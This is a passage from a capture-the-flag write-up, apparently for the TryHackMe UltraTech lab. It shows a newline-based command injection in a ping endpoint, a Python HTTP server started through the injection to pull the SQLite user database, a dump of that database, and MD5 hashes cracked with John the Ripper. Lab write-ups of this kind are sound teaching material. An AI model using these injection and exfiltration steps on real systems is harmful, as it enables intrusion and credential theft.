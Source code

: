 Further error revealed:
```bash
ping6 -c1 'USER INPUT'
```

Here we have to escape the backthiks, commonly can achieve it with commands like `&&` , `;`, using more thiks and so on, we need to test some combinations...

Finally inserting the new line character `%0A` did the trick:
```
http://ultratech.thm:8081/ping?ip=localhost%0Awhoami
```

Now let's try to run `ls` to see what's in the current working directory, the output revealed 6 files:
```
 index.js 
 node_modules 
 package.json 
 package-lock.json 
 start.sh 
 utech.db.sqlite
```

We need to download that database file, let's start an HTTP server passing the command:
```
python3%20-m%20http.server
```

Now we can download it from our machine:
```bash
wget http://ultratech.thm:8000/utech.db.sqlite 
```

Open the database:
```bash
sqlite3 utech.db.sqlite 
```

Now list tables:
```
.tables
```

We find the "users" table, dump the content:
```sql
SELECT * from users;
```

```
REDACTED_HASHES
```

Time to check the hash format and crack it:
```bash
john --format=raw-md5 --wordlist=rockyou.txt hash.txt
```
--> REDACTED -> r00t
--> REDACTED -> admin
